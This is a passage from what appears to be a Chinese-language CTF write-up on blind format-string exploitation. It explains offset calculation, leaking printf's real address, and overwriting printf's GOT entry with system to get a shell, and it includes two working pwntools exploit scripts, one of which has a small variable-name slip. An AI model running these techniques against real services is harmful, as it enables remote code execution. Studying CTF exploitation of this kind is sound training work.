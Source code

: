 (1) 由于是格式化字符串打印，会打印到字符串结尾 "\x00"，但是不会打印出 "\x00"，所以需要补上 "\x00"。

(2) 这里的 %9$s.AAA 中偏移为 9，是因为打印的是 p32(start_addr) 处的内容，前面有 %9$s.AAA 共八个字节，两个地址单位，所以偏移 7+2=9。并且填充 AAA 也是为了满足地址对齐，同时作为特征点来获取程序传回来的数据。将地址放在后面也是为了防止地址中的 "\x00" 造成截断。

(3)dump 的内容只需要有 0x1000 这么大就行，一个内存页即可。

(4) 没有开启 PIE 时，32 位程序从 0x8048000 开始。

▲搭建题目时，dump 出来的内容可能会有点改变，没办法 gdb 调试，应该是 libc 版本或者 ASLR 的问题，不过不影响，IDA 静态分析就好。

5. 之后就是常规的格式化字符串漏洞利用了，借助 dump 下来的文件，找到 printf 的 got 表地址，利用格式化字符串打印 printf 函数真实地址。之后通过 DynELF 或者 LibcSearch 来获取 system 函数在 libc 中的偏移，利用泄露的 printf 函数真实地址，得到 Libc 加载的基地址，再计算得到 system 函数的真实地址。最后再利用格式化字符串漏洞将 system 函数真实地址写到 printf 的 got 表处，劫持 got 表。最后再输入 binsh 字符串即可劫持 printf("/bin/sh") 为 system("/bin/sh")。

(1) 泄露 printf 函数真实地址:

```
#注释头
 
def get_printf_addr():
    io = remote('127.0.0.1', '10001')
    io.recvline()
    payload = "%9$s.AAA" + p32(printf_got)
    io.sendline(payload)
    data = p.recvuntil(".AAA")[:4]
    log.info("printf address: %s" % data.encode('hex'))
    return data
printf_addr = get_printf_addr()

```

(2) 计算或者 DynELF 得到 system 函数真实地址 system_addr。

(3) 利用格式化字符串漏洞进行 attack

```
payload = fmtstr_payload(7, {printf_got:system_addr})
io = remote('127.0.0.1', '10001')
io.recvline()
io.sendline(payload)
io.recv()
io.sendline('/bin/sh')
io.interactive()

```

参考资料：

[https://www.dazhuanlan.com/2019/10/08/5d9c20226a067/](https://www.dazhuanlan.com/2019/10/08/5d9c20226a067/)

二、hctf2016-brop--ROP 盲打
-----------------------

1. 题目用以下代码编译和搭建，[brop.c] 就是程序代码文件

